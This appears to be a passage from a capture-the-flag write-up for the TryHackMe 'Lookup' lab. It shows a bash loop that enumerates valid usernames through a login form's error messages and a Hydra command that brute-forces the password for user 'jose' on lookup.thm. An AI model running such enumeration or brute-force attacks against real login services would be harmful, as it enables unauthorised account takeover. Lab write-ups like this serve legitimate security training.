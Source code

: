 ```bash
while IFS= read -r username; do
    username="$(echo -n "$username" | tr -d '\r')"
    
    if [[ -z "$username" ]]; then
        continue
    fi

    # POST data message with curl
    response=$(curl -s -X POST "$url" \
        -d "username=$username" \
        -d "password=password")
    
    # Verify response
    if [[ "$response" == *"Wrong password"* ]]; then
        echo "Usuario encontrado: $username"
    fi
    # ignore "wrong username"
done < "$file_path"
```

### HTTP POST Brute Force Attack with Hydra
With the collected information, we perform a brute-force attack using **Hydra** with the following command:  
```bash
hydra -l jose -P passwords.txt lookup.thm http-post-form "/login.php:username=^USER^&password=^PASS^:Wrong"
```

**BOOM!** A valid password has been found, as shown below:

![Jose Valid Password](assets/img/THM/Lookup-Writeup/password-found.png)
